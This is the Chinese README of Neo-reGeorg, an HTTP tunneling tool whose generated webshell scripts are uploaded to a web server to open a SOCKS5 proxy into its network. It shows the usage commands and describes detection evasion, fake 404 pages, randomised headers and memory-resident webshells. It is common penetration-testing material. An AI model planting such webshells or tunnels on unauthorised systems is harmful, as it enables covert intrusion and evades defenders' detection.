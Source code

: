 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 应对更多的网络环境场景



Features
----

* 传输内容经过变形 base64 加密，伪装成 base64 编码
* 直接请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 自定义 HTTP 响应码
* 多 URL 随机请求
* 服务端 DNS 解析
* 兼容 python2 / python3
* 服务端环境的高兼容性
* 参考 [pivotnacci](https://github.com/blackarrowsec/pivotnacci) 实现单 Session 创建多 TCP 连接，应对部分负载均衡场景



Version
----

2.0.0 - [版本修改日志](CHANGELOG.md)



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests



Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp

```

* **Step 2.**
使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如 nmap 不支持 socks5 代理设置，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 等




Advanced Usage
--------------

1. 支持生成的服务端，默认直接请求响应指定的页面内容 (如伪装的 404 页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html --httpcode 404
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端 WEB，需要设置代理才能访问
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需 Authorization 认证和定制的 Header 或 Cookie
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. 需要分散请求，可上传到多个路径上，如内存马
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```


* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
# 生成服务端脚本
$ python neoreg.py generate -h
	usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

	Generate neoreg webshell

	optional arguments:
	  -h, --help            show this help message and exit
	  -k KEY, --key KEY     Specify connection key.
	  -o DIR, --outdir DIR  Output directory.
	  -f FILE, --file FILE  Camouflage html page file
	  -c CODE, --httpcode CODE
							Specify HTTP response code. (default: 200)
	  --read-buff Bytes     Remote read buffer. (default: 513)

# 连接服务端
$ python neoreg.py -h
	usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
					 [-x LINE] [--local-dns] [--read-buff Bytes]
					 [--read-interval MS] [--max-threads N] [-v]

	Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
	(debug_all|debug_base64|debug_headers_key|debug_headers_values)

	optional arguments:
	  -h, --help            show this help message and exit
	  -u URI, --url URI     The url containing the tunnel script
	  -k KEY, --key KEY     Specify connection key
	  -l IP, --listen-on IP
							The default listening address.(default: 127.0.0.1)
	  -p PORT, --listen-port PORT
							The default listening port.(default: 1080)
	  -s, --skip            Skip usability testing
	  -H LINE, --header LINE
							Pass custom header LINE to server
	  -c LINE, --cookie LINE
							Custom init cookies
	  -x LINE, --proxy LINE
							proto://host[:port] Use proxy on given port
	  --local-dns           Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-buff Bytes     Local read buffer, max data to be sent per
							POST.(default: 2048 max: 2600)
	  --read-interval MS    Read data interval in milliseconds.(default: 100)
	  --max-threads N       Proxy max threads.(default: 1000)
	  -v                    Increase verbosity level (use -vv or more for greater
							effect)
```


TODO
----

 * HTTP body 隐写

 * 传输 Target 隐写



License
----

GPL 3.0
